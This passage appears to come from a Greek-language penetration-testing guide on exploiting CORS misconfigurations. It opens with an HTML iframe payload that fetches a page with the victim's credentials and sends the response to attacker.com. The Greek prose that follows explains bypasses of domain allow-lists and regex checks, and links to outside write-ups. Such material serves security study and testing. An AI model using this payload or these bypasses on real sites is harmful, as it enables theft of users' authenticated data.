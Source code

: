 ```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```
### Τεχνικές Παράκαμψης Κανονικών Εκφράσεων

Όταν συναντάτε μια λίστα επιτρεπόμενων τομέων, είναι κρίσιμο να δοκιμάσετε ευκαιρίες παράκαμψης, όπως η προσθήκη του τομέα του επιτιθέμενου σε έναν επιτρεπόμενο τομέα ή η εκμετάλλευση ευπαθειών ανάληψης υποτομέων. Επιπλέον, οι κανονικές εκφράσεις που χρησιμοποιούνται για την επικύρωση τομέων μπορεί να παραβλέπουν τις λεπτομέρειες στις συμβάσεις ονοματοδοσίας τομέων, προσφέροντας περαιτέρω ευκαιρίες παράκαμψης.

### Προχωρημένες Παράκαμψεις Κανονικών Εκφράσεων

Τα μοτίβα Regex συνήθως επικεντρώνονται σε αλφαριθμητικούς χαρακτήρες, τελείες (.) και παύλες (-), παραβλέποντας άλλες δυνατότητες. Για παράδειγμα, ένα όνομα τομέα που έχει σχεδιαστεί για να περιλαμβάνει χαρακτήρες που ερμηνεύονται διαφορετικά από τους περιηγητές και τα μοτίβα regex μπορεί να παρακάμψει τους ελέγχους ασφαλείας. Η διαχείριση των χαρακτήρων υπογράμμισης από τους Safari, Chrome και Firefox σε υποτομείς δείχνει πώς τέτοιες διαφορές μπορούν να εκμεταλλευτούν για να παρακάμψουν τη λογική επικύρωσης τομέα.

**Για περισσότερες πληροφορίες και ρυθμίσεις αυτού του ελέγχου παράκαμψης:** [**https://www.corben.io/advanced-cors-techniques/**](https://www.corben.io/advanced-cors-techniques/) **και** [**https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397**](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
